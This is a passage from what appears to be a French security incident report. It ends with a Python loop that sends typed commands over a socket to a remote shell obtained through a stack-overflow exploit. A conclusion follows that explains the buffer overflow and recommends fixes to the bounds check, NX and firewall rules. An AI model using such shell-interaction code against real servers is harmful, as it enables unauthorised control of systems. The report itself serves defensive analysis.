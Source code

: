```python

# if the shell is open, we can execute whatever we want
while True:
    user_in = input("$ ")
    if user_in == "exit":
        s.send(b'exit\n')
        break
    s.send(str.encode(user_in + '\n'))
    out = s.recv(1024)
    print(" %r" % out)

s.close()
```

## Conclusion

Voici le résultat de notre travail, la faille a été mise au grand jour et d'après nos analyses la vulnérabilité est majoritairement liée au code source du serveur.  
Il y a eu donc une attaque en Stack Overflow où l'attaquant a réussi à déborder de la pile pour écrire à &RET et pouvoir exécuter du code malveillant. Cela lui a permis d'avoir un accès à un terminal de la machine du serveur et de pouvoir faire ce que bon lui semble.

Pour vous aider à combler cette faille, voici nos recommandations:

- Modifier le code source pour bien empêcher l'écriture hors de l'espace mémoire alloué en changeant la condition dans le test conditionnel. Ne pas copier le message si il est supérieur ou égal à la taille du buffer et non pas seulement strictement supérieur! (changer `msg.len > BUFFERLENGTH` en `msg.len >= BUFFERLENGTH`).
- Ne pas faire tourner votre serveur avec le bit NX désactivé, cela diminuera les risques. (`B2B-OPTS="-p 6000 -x 0` en `B2B-OPTS="-p 6000`)
- Durcir votre politique de sécurité dans le firewall, en empêchant des des paquets aussi gros d'être reçu on en filtrant les paquets ayant des caractères suspicieux.
- Ou fixer directement le format des payload du echo `snprintf(*response, len, "%s", echo)`.

Enfin, étant donné à quel point l'attaque est spécifique à votre système (ex. ils savent que le bit NX est désactivé) et à votre code source (for loop), il est possible que l'attaquant soit proche de la société Pressoare. Il pourrait être un client, voire un ancien employé.

Bien à vous, je vous souhaite bonne continuation. En espérant que cet incident ne vous vaudra pas trop de préjudices.

Arthur et Léo
